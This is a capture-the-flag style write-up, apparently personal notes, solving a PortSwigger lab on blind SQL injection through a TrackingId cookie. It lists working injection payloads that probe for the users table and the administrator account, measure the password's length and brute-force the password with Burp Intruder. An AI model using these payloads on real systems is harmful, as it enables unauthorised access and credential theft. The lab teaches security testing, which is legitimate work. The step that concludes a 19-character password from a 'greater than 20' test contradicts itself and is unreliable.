 ## Blind SQL injection with conditional responses

**Title:** Blind SQL injection with conditional responses. [Go](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)

**Description:** This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned, and no error messages are displayed. But the application includes a `Welcome back` message in the page if the query returns any rows. The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.
To solve the lab, log in as the `administrator` user.

## Preface

Blind SQL injection occurs when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors. Many techniques such as UNION attacks are not effective with blind SQL injection vulnerabilities. This is because they rely on being able to see the results of the injected query within the application's responses.

Consider an application that uses tracking cookies to gather analytics about usage. Requests to the application include a cookie header like this:
`Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4`
When a request containing a `TrackingId` cookie is processed, the application uses a SQL query to determine whether this is a known user:
`SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'`
This query is vulnerable to SQL injection, but the results from the query are not returned to the user. However, the application does behave differently depending on whether the query returns any data. If you submit a recognized `TrackingId`, the query returns data and you receive a `Welcome back` message in the response.

This behavior is enough to be able to exploit the blind SQL injection vulnerability. You can retrieve information by triggering different responses conditionally, depending on an injected condition.

To understand how this exploit works, suppose that two requests are sent containing the following `TrackingId` cookie values in turn:
`…xyz' AND '1'='1` & `…xyz' AND '1'='2`

The first of these values causes the query to return results, because the injected AND `'1'='1` condition is true. As a result, the `Welcome back` message is displayed.
The second value causes the query to not return any results, because the injected condition is false. The `Welcome back` message is not displayed. This allows us to determine the answer to any single injected condition, and extract data one piece at a time.

For example, suppose there is a table called `Users` with the columns `Username` and `Password`, and a user called `Administrator`. You can determine the password for this user by sending a series of inputs to test the password one character at a time.

To do this, start with the following input: `xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm`
This returns the `Welcome back` message, indicating that the injected condition is true, and so the first character of the password is greater than `m`.

Next, we send the following input: `xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't`
This does not return the "Welcome back" message, indicating that the injected condition is false, and so the first character of the password is not greater than `t`.

Eventually, we send the following input, which returns the `Welcome back` message, thereby confirming that the first character of the password is `s`:
`xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's`

We can continue this process to systematically determine the full password for the `Administrator` user

## Methodology

### Finding the vulnerable parameter
Initially, our foremost objective is to identify a potential vulnerability within the application's parameters that allows for the execution of SQL queries. In the context of this shopping application, we are particularly interested in the `TrackingId` cookie parameter , where the backend logic is designed to query the submitted data.

### My thought

Modify the `TrackingId` cookie, changing it to: `TrackingId=xyz' AND '1'='1`. Verify that the `Welcome back` message appears in the response.

Now change it to: `TrackingId=xyz' AND '1'='2`. Verify that the `Welcome back` message does not appear in the response. This demonstrates how you can test a single boolean condition and infer the result.

![poc_conditional_responses_confirm_02.png](../images/conditional_response_confirm_02.png)

Now change it to: `TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a`. Verify that the condition is true, confirming that there is a table called users.

![poc_confirming_users_table.png](../images/confirming_users_table.png)

Now change it to: `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a`. Verify that the condition is true, confirming that there is a user called administrator.

![poc_administrator_table.png](../images/administrator_table.png)

The next step is to determine how many characters are in the password of the administrator user. To do this, change the value to: `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>20)='a`. This condition should be true, confirming that the password has 19 characters in length.

![poc_password_length.png](../images/password_length.png)

Now its time to brute force all of these 19 charecters. And for this we will use brup suite's Intruder module. Here, we use cluster bomb option with two payload position. `TrackingId=xyz' AND (SELECT SUBSTRING(password,$payload01$,1) FROM users WHERE username='administrator')='$payload02$`

![poc_clusterbomb01.png](../images/clusterbomb01.png)

For first payload position we have to configure:

![poc_clusterbomb02.png](../images/clusterbomb02.png)

For second payload position we have to configure:

![poc_clusterbomb03.png](../images/clusterbomb03.png)

To be able to tell when the correct character was submitted, you'll need to grep each response for the expression `Welcome back`. To do this, go to the Settings tab, and the `Grep - Match` section. Clear any existing entries in the list, and then add the value `Welcome back`.

![poc_clusterbomb04.png](../images/clusterbomb04.png)

And the final result:

![poc_conditional_responses.png](../images/poc_conditional_responses.png)

**Summary:**

1. Confirming the vulnerability with `TrackingId=xyz' AND '1'='1` & `TrackingId=xyz' AND '1'='2`

2. Verifying `users` table with `TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a`

3. Confirming `administrator` user with `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a`

4. Determining password length with `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>20)='a`

5. Brute forcing characters with `TrackingId=xyz' AND (SELECT SUBSTRING(password,$payload01$,1) FROM users WHERE username='administrator')='$payload02$`

